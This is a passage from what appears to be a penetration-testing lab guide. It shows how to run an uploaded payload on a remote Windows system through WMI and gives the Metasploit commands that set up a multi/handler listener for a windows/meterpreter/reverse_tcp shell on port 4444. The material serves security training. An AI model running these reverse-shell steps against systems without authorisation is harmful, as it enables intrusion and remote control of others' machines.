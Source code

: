     ![A screenshot depicts the results of the command.](Images/put.png)

    - Now that the payload is on the remote system, you can execute it using the WMI module in Metasploit. Before doing that, though, you need to ensure that Metasploit is listening for your payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module, and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running these commands.](Images/multihandler.PNG)
